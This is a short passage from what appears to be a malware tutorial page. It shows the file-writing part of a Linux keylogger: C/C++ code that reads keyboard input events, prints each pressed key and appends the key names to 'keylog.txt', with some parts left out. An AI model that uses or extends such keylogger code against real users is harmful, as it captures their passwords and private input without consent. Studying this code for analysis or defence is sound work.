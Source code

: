 ![malware](/assets/images/157/2025-06-08_15-35.png){:class="img-responsive"}    

and write to file logic:     

```cpp
FILE *logfile = fopen("keylog.txt", "a");
if (!logfile) {
  perror("fopen");
  return 1;
}

//....

if (n == (ssize_t)sizeof(struct input_event)) {
  if (ev.type == EV_KEY && ev.value == 1) { // keydown
    const char *keyname = keycode_to_string(ev.code);
    printf("key pressed: %s (code %d)\n", keyname, ev.code);
    fprintf(logfile, "%s\n", keyname);
    fflush(logfile);
    if (ev.code == KEY_ESC) {
      printf("ESC pressed, exiting.\n");
      break;
    }
  }
}

//...
```
